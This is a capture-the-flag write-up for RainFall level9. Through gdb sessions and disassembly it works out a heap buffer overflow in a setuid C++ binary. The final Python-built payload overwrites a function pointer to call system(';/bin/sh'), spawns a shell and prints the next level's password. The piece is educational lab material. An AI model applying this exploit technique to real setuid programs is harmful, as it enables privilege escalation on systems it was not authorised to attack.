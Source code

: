 <p align="justify">

Level9 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```

Level9 rights:
```Shell
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
```

Testing the binary:
```Shell
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 $(python -c 'print("A" * 300)')
Segmentation fault (core dumped)
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- the code is written in c++
- unlike the other levels, there is no `system()` calls or direct access to the password
- two exploitable buffers are allocated on the heap with `new`
- we can exploit `memcpy()` because it takes argv[1] as argument and store it in one of the buffers

Let's check if `system()` belongs to the shared libraries, and if so, fetch its address:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```
Here it is in little endian: `\x60\x60\xd8\xb7`.

We will store it in the buffer through argv[1]. If we want to overflow it, we can calculate the offset with a pattern from [this](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?):
```Shell
[...]
0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
0x0804867c <+136>:   mov    0x10(%esp),%eax
0x08048680 <+140>:   mov    (%eax),%eax
0x08048682 <+142>:   mov    (%eax),%edx
[...]
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```

Interestingly, this is it not the value that we must feed the generator. We have to do an extra step, because the true value is stored in `eax`:
```Shell
(gdb) info register
eax            0x41366441       1094083649
[...]
```

The generator gives us an offset of 108 bytes. We will pad our payload with 104 `A` (4 bytes are reserved for `system()` address). When disassembling `main()`, you can see at two memory allocations of 108 bytes by the `new` operator:
```Shell
[...]
0x08048610 <+28>:    movl   $0x6c,(%esp)
0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
[...]
0x08048632 <+62>:    movl   $0x6c,(%esp)
0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
[...]
```

Analysing the code in more depth, we realised three important things:
- the first 4 bytes of the 2nd buffer needs a valid address that contains an executable function
- the next 4 bytes can store the argument of that function
- if we overflow the 1st buffer with argv[1], we start writing on the 2nd buffer

This means that we must find the start of our buffer to place it into these first 4 bytes. To do so, we will run the program with gdb and place a breakpoint right after the allocation. The address will be stored in `eax`
```Shell
(gdb) disas main
Dump of assembler code for function main:
[...]
0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
0x0804867c <+136>:   mov    0x10(%esp),%eax <=========== eax being loaded with the address
[...]
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run
Starting program: /home/user/level9/level9 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

Breakpoint 1, 0x0804867c in main ()
(gdb) info register $eax
eax            0x804a00c        134520844
```
Here it is in Little Endian: `\x0c\xa0\x04\x08`.

We're almost done, we just need to add the argument for `system()` as an extra string in the payload: `;/bin/sh`. If you don't add `;`, you will get permission denied, so you need to send an empty command first to skip that check.

And the final result is:
```Shell
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh")')
sh: 1: 
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
</p>